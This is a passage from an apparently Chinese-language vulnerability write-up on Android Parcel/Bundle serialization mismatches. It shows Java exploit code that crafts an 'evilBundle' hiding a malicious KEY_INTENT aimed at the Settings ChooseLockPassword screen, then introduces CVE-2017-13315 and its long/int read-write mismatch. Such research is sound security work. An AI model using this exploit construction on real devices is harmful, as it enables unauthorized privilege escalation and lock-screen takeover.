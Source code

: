 ```
        pcelData.writeInt(1);//dataStatus
        pcelData.writeInt(1);// flag for data
        pcelData.writeInt(0x144); //length of KEY_INTENT:evilIntent
        // Evil object hide in PeriodicAdvertisingReport.mData
        pcelData.writeString(AccountManager.KEY_INTENT);
        pcelData.writeInt(4);
        pcelData.writeString("android.content.Intent");// name of Class Loader
        pcelData.writeString(Intent.ACTION_RUN); // Intent Action
        Uri.writeToParcel(pcelData, null); // Uri is null
        pcelData.writeString(null); // mType is null
        pcelData.writeInt(0x10000000); // Flags
        pcelData.writeString(null); // mPackage is null
        pcelData.writeString("com.android.settings");
        pcelData.writeString("com.android.settings.password.ChooseLockPassword");
        pcelData.writeInt(0); //mSourceBounds = null
        pcelData.writeInt(0); // mCategories = null
        pcelData.writeInt(0); // mSelector = null
        pcelData.writeInt(0); // mClipData = null
        pcelData.writeInt(-2); // mContentUserHint
        pcelData.writeBundle(null);
        ///////////////////////////////////////
        pcelData.writeString("Padding-Key");
        pcelData.writeInt(0); // VAL_STRING
        pcelData.writeString("Padding-Value"); //       
        int length  = pcelData.dataSize();
        Log.d(TAG, "length is " + Integer.toHexString(length));
        bndlData.writeInt(length);
        bndlData.writeInt(0x4c444E42);
        bndlData.appendFrom(pcelData, 0, length);
        bndlData.setDataPosition(0);
        evilBundle.readFromParcel(bndlData);
        Log.d(TAG, evilBundle.toString());
        return evilBundle;
   }

```

### 0x03 案例 2：CVE-2017-13315

五月份修复的 CVE-2017-13315 出现在 DcParamObject 类中，对比 writeToParcel 和 readFromParcel 函数.

```
public void writeToParcel(Parcel dest, int flags) {
        dest.writeLong(mSubId);
    }
    private void readFromParcel(Parcel in) {
        mSubId = in.readInt();
    }

```

int 类型的成员变量 mSubId 写入时为 long，读出时为 int，没有可借用的其他成员变量，似乎在 Bundle 中布置数据更有挑战性。但受前面将恶意 KEY_INTENT 置于 ByteArray 中启发，可以采用如下方案。
